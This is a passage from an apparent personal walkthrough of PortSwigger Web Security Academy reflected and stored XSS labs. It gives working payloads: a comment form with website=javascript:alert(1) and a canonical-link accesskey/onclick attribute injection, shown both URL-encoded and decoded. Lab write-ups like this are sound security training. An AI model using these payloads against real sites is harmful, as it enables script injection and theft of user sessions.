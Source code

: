 ```bash
csrf=xJAdBTi5vpk8VQAjNmiVEzhPQIASt0cn&postId=8&comment=comment&name=name&email=email%40email.com&website=javascript:alert(1)

Click "Follow redirection" // Does not seem to be necessary, but does not hurt. Also, manually click on the username "name" to verify

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519010733.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519012434.png)

### Reflected XSS in canonical link tag
```bash

# This lab reflects user input in a canonical link tag and escapes angle brackets.

# To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

# To assist with your exploit, you can assume that the simulated user will press the following key combinations:

#    ALT+SHIFT+X
#    CTRL+ALT+X
#    Alt+X

# Please note that the intended solution to this lab is only possible in Chrome. 

' = %27

Enter into the browser:

?%27accesskey=%27x%27onclick=%27alert(1)

// or // decoded

?'accesskey='x'onclick='alert(1)

Enter into browser:

https://ac5f1f561e8de3b6c064aaa9001c0022.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Verify:
Shift+Ctrl+x (windows and linux)

```

### Reflected XSS into a JavaScript string with single quote and backslash escaped
```bash

# This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

# To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

Enter into the search:

123456
```